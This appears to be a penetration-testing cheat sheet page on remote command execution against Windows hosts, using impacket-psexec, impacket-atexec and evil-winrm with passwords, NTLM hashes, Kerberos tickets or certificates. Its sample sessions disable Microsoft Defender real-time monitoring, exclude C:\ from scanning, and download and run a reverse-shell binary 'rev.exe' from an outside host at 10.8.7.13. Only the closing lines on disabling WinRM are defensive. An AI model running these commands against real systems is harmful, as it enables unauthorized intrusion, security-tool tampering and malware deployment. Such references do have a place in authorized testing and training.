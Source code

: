 ```yaml
---
title: "Winrm"
date: 2024-7-27
tags: ["Kerberos", "Pass-The-Hash", "RCE", "Evil-Winrm", "Windows", "Pass-The-Ticket", "Pass-The-Cert", "Winrm", "PsExec", "AtExec"]
---
```


### PsExec

{{< tab set1 tab1 >}}Password{{< /tab >}}
{{< tab set1 tab2 >}}NTLM{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Domain auth
impacket-psexec '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>'
```

```console
# Local auth
impacket-psexec '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Domain auth
impacket-psexec '<DOMAIN>/<USER>@<TARGET>' -hashes :<HASH>
```

```console
# Local auth
impacket-psexec '<USER>@<TARGET>' -hashes :<HASH>
```

{{< /tabcontent >}}

### AtExec

{{< tab set2 tab1 >}}Password{{< /tab >}}
{{< tab set2 tab2 >}}NTLM{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Local auth
impacket-atexec '<WORKGROUP>/<USER>:<PASSWORD>@<TARGET_DOMAIN>' 'powershell.exe -c "<CMD>"'
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
# Local auth
impacket-atexec '<WORKGROUP>/<USER>@<TARGET_DOMAIN>' -hashes :<HASH> 'powershell.exe -c "<CMD>"'
```

```console {class=sample-code}
$ impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'WS01/administrator@WS01.example.com' 'powershell.exe -c "Set-MpPreference -DisableRealtimeMonitoring $true"'

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] This will work ONLY on Windows >= Vista
[*] Creating task \gNBJCrJi
[*] Running task \gNBJCrJi
[*] Deleting task \gNBJCrJi
[*] Attempting to read ADMIN$\Temp\gNBJCrJi.tmp
                                                                                                                                                            
$ impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'WS01/administrator@WS01.example.com' 'powershell.exe -c "Set-MpPreference -ExclusionPath C:\\"'

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] This will work ONLY on Windows >= Vista
[*] Creating task \cbUEDAaz
[*] Running task \cbUEDAaz
[*] Deleting task \cbUEDAaz
[*] Attempting to read ADMIN$\Temp\cbUEDAaz.tmp
                                                                                                                                                            
$ impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'WS01/administrator@WS01.example.com' 'powershell.exe -c "iwr 10.8.7.13:8443/rev.exe -outfile C:\programdata\rev.exe"'

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] This will work ONLY on Windows >= Vista
[*] Creating task \RmSAvink
[*] Running task \RmSAvink
[*] Deleting task \RmSAvink
[*] Attempting to read ADMIN$\Temp\RmSAvink.tmp
                                                                                                                                                            
$ impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'WS01/administrator@WS01.example.com' 'powershell.exe -c "C:\programdata\rev.exe"' 
 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] This will work ONLY on Windows >= Vista
[*] Creating task \LCpKICMQ
[*] Running task \LCpKICMQ
[*] Deleting task \LCpKICMQ
[*] Attempting to read ADMIN$\Temp\LCpKICMQ.tmp
```

{{< /tabcontent >}}

### Evil-Winrm

{{< tab set3 tab1 >}}Password{{< /tab >}}
{{< tab set3 tab2 >}}NTLM{{< /tab >}}
{{< tab set3 tab3 >}}Kerberos{{< /tab >}}
{{< tab set3 tab4 >}}crt & key{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
evil-winrm -i <TARGET> -u '<USER>' -p '<PASSWORD>'
```

```console {class=sample-code}
$ evil-winrm -i 127.0.0.1 -u dr.zaiuss -p 'qwe123QWE!@#'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Dr.Zaiuss\Documents>
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
evil-winrm -i <TARGET> -u '<USER>' -H <HASH> 
```

{{< /tabcontent >}}
{{< tabcontent set3 tab3 >}}

```console
# Step 1: Edit '/etc/krb5.conf' (All in uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console {class="sample-code"}
[libdefaults]
    default_realm = WINDCORP.HTB

[realms]
    WINDCORP.HTB = {
        kdc = HOPE.WINDCORP.HTB:88
        admin_server = HOPE.WINDCORP.HTB
        default_domain = WINDCORP.HTB
    }
    
[domain_realm]
    .domain.internal = WINDCORP.HTB
    domain.internal = WINDCORP.HTB
```

```console
# Step 2: Request a TGT
sudo ntpdate -s <DC_IP> && impacket-getTGT '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

```console
# Step 3: export .ccache
export KRB5CCNAME=<CCACHE>
```

```console {class="sample-code"}
$ export KRB5CCNAME=winrm_user.ccache
```

```console
# Step 4: Connect
sudo ntpdate -s <DC_IP> && evil-winrm -i <TARGET> -r <DOMAIN>
```

```console {class="sample-code"}
$ evil-winrm -i dc.absolute.htb -r absolute.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents> 
```

{{< /tabcontent >}}
{{< tabcontent set3 tab4 >}}

```console
evil-winrm -i <TARGET> -S -k auth.key -c auth.crt
```

{{< /tabcontent >}}

### Disable Winrm

```console
Disable-PSRemoting -Force
```

```console
Stop-Service WinRM -PassThru
```

```console
Set-Service WinRM -StartupType Disabled -PassThru
```